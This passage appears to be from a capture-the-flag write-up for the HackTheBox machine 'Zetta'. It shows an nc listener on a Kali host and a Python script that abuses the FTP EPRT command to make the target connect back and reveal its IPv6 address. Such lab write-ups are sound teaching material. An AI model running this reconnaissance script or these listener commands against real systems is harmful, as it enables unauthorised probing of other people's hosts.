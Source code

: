 

    LIST
    150 Connecting to port 4433
    226-Options: -l 
    226 0 matches total



But I get a connection at `nc`:



    root@kali# nc -lnvp 4433
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::4433
    Ncat: Listening on 0.0.0.0:4433
    Ncat: Connection from dead:beef::250:56ff:fe88:e5fa.
    Ncat: Connection from dead:beef::250:56ff:fe88:e5fa:54680.



Now I have the IPv6 of Zetta. Each time the box boots, that IP will
change, so I wrote a quick script to fetch it. The script opens a socket
on a random port to listen, then logs into FTP, authenticates, and sets
the transfer to my IPv6 with the same random port. Then it accepts the
connection on the listener, and prints the IPv6:



    #!/usr/bin/env python3

    import random
    import netifaces
    import socket


    port = random.randint(2000,10000)
    print(f'[*] Generated random listen port: {port}')

    print(f'[*] Starting listener on ::{port}')
    v6listener = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
    v6listener.bind(('::', port))
    v6listener.listen()

    myv6 = netifaces.ifaddresses('tun0')[10][0]['addr']
    print(f'[*] Local IPv6 address: {myv6}')

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        print('[*] Connecting to Zetta 10.10.10.156:21')
        s.connect(('10.10.10.156', 21))
        print('[+] Connected\n[*] Waiting 10 seconds for FTP MOTD')
        s.send(b'\n')
        s.recv(2048)
        print('[*] Logging in')
        s.send(f'USER {"A"*32}\n'.encode())
        s.recv(2048)
        s.send(f'PASS {"A"*32}\n'.encode())
        s.recv(2048)
        eprt_str = f'EPRT |2|{myv6}|{port}'
        print(f'[+] Authenticated\n[*] Sending {eprt_str}')
        s.send(f'{eprt_str}\nLIST\n'.encode())
        s.recv(2048)
        conn, addr = v6listener.accept()
        s.recv(2048)
    v6listener.close()
    conn.close()
    print(f'[+] Got IPv6 for Zetta:\n{addr[0]}')
